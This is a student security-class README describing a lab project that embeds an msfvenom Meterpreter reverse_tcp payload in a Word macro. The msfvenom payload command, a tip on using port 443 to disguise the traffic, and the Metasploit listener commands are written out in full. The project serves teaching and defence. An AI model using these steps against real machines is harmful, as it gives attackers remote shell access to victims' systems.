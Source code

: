 # IT 359 Project
This project demonstrates how a reverse shell payload can be created using msfvenom and embedded into a Microsoft Word macro as a proof-of-concept for educational and defensive security purposes. The objective is to simulate a common attack technique used by threat actors to gain unauthorized access to a target system, with the ultimate goal of understanding how such threats operate, how to identify them, and how to effectively defend against them.   

By following the steps outlined in this project, readers will gain insight into:  
  
How attackers craft and deliver malicious payloads using social engineering.  
How Microsoft Office macros can be exploited for code execution.  
Techniques for detecting and mitigating macro-based malware threats in enterprise environments.        
Technologies used will include Weaviate(built in AI and machine learning integration), OpenAI, proxmox, kali and windows, microsoft word    

# Day One: Topic 
After adding Ben to the group a little later into the semester, I opened up the Idea to doing a project that was little more realistic for our group to complete. I really just used AI and the project prompt to get some suggestions. Ultimately went with the subject explained above. Also used AI to create an outline of each members responsibilities by giving it our topic, timeline and number of memebers.
- Looking back, it was great for a start, but we should have revised it to be a little more compatible with our group.  

# MSFVenom Payload  
AI suggested using MSFVenom to create the payload and after looking into it, I realized that it was implemented in metasploite which we have experience with and acess to on our proxmox VMs. 
This was the main website I used to research the flags and how to use them(reading the instruction in the terminal is a bit of a headache for me) https://www.offsec.com/metasploit-unleashed/msfvenom/  
  alternatively can use this resource https://adfoster-r7.github.io/metasploit-framework/docs/using-metasploit/basics/how-to-use-msfvenom.html
  
### Ultimately the command I came up with was msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f vba.  
#### -p
- the flag to start creating a payload
##### "windows" to target a windows machine(any of the promox machines in our case)  
#### "meterpreter" is the interactive shell component
#### "reverse_tcp" makes the victim reach out to our attacking machine
#### LHOST will be our attacking machines IP(kali linux proxmox vm)
#### LPORT will be the port we have our listener setup on
- Can use 4444 which is the metasploit default
- Another option is 443 if we want to be sneaky and make it look like HTTPS traffic  
#### -f VBA
- f = format of the output
- vba = visual basic for applications format

# Setting up the Listener  
### Really simple setup on the kali VM  
- Ths provides background knowledge on msfconsole commands https://www.offsec.com/metasploit-unleashed/msfconsole-commands/

### In your terminal run each command
#### msfconsole
#### use exploit/multihandler
#### set payload windows/meterpreter/reverse_tcp  
#### set LHOST our kali IP
#### set Lport(same port as in the payload)  
#### run


